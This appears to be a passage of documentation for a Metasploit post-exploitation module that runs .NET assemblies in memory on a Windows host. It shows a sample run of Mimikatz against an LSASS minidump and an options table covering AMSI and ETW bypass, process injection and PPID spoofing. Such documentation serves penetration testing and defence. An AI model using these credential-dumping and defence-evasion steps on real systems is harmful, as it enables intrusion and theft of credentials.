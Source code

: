 ```
[+] [*] Executing loaded Mimikatz PE
[+] 
[+]   .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
[+]  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
[+]  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
[+]  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
[+]  '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
[+]   '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
[+] 
[+] mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...
[+] ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
[+] Opening : 'C:\Windows\Temp\debug.bin' file for minidump...
[+] ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)
[+] 
[+] mimikatz # deleting C:\Windows\Temp\debug.bin
[+] Execution started
[+] ICorRuntimeHost->GetDefaultDomain(...) succeeded
[*] End output.
[+] Killing process 19568
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_dotnet_assembly) >
```

## Options

```
Module options (post/windows/manage/execute_dotnet_assembly):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AMSIBYPASS      true             yes       Enable Amsi bypass
   ARGUMENTS                        no        Command line arguments
   DOTNET_EXE                       yes       Assembly file name
   ETWBYPASS       true             yes       Enable Etw bypass
   PID             0                no        Pid  to inject
   PPID            0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   PROCESS         notepad.exe      no        Process to spawn
   SESSION                          yes       The session to run this module on.
   USETHREADTOKEN  true             no        Spawn process with thread impersonation
   WAIT            10               no        Time in seconds to wait


```

AMSIBYPASS

Enable or Disable Amsi bypass. This parameter is necessary due to the
technique used. It is possible that subsequent updates will make the
bypass unstable which could result in a crash. By setting the parameter
to false the module continues to work.
